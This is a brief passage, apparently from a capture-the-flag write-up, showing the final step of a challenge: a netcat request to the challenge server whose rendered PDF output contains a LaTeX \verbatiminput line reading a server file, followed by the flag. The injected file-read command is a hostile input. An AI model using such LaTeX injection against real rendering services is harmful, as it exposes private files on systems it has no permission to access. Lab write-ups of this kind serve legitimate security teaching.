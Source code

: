 <br>

We find another path, read it :D
```
$ nc portal.hackazon.org 17001 > deneme.pdf
\verbatiminput{/home/elf/file_descriptors.c}
```


![](/assets/images/cv3.png)
<br>

And the flag is:
```
CTF{NEVer_7RU757_u5ER_1nPu7}
```

---

